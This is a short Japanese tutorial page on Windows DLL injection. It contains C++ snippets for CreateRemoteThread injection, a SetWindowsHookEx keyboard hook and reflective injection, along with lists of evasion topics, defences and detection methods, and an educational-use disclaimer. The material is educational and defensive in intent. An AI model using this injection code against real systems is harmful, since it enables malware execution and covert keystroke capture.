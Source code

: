 # DLL Injection Techniques

**対応OS**: Windows

## 概要
DLLインジェクションは、実行中のプロセスに悪意のあるDLLを強制的に読み込ませる手法です。

## 基本的な手法

### CreateRemoteThread
```cpp
// ターゲットプロセスを開く
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

// DLLパスのメモリ確保
LPVOID pDllPath = VirtualAllocEx(hProcess, NULL, strlen(dllPath) + 1,
    MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// DLLパスの書き込み
WriteProcessMemory(hProcess, pDllPath, dllPath,
    strlen(dllPath) + 1, NULL);

// LoadLibraryAのアドレス取得
LPVOID pLoadLibrary = GetProcAddress(
    GetModuleHandle("kernel32.dll"), "LoadLibraryA");

// リモートスレッド作成
CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)pLoadLibrary,
    pDllPath, 0, NULL);
```

### SetWindowsHookEx
```cpp
// フックプロシージャ
LRESULT CALLBACK HookProc(int code, WPARAM wParam, LPARAM lParam)
{
    return CallNextHookEx(NULL, code, wParam, lParam);
}

// フックの設定
HHOOK hHook = SetWindowsHookEx(WH_KEYBOARD,
    HookProc, hInstance, threadId);
```

## 検知回避テクニック
- APIフック回避
- メモリスキャン回避
- 実行フロー制御
- タイミング制御

## 高度な手法

### リフレクティブDLLインジェクション
```cpp
typedef HMODULE (*LoadDllFunc)(LPVOID);

// DLLのローダーコードをメモリに書き込み
WriteProcessMemory(hProcess, pRemoteBuffer,
    lpBuffer, dwLength, NULL);

// ローダーコードを実行
CreateRemoteThread(hProcess, NULL, 0,
    (LPTHREAD_START_ROUTINE)pRemoteBuffer,
    NULL, 0, NULL);
```

## 防御策
- DLL読み込みの監視
- プロセスメモリの保護
- APIフックの検知
- ホワイトリスト化

## 検知方法
- 不審なDLL読み込み
- リモートスレッド作成
- メモリ領域の変更
- APIコールの監視

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 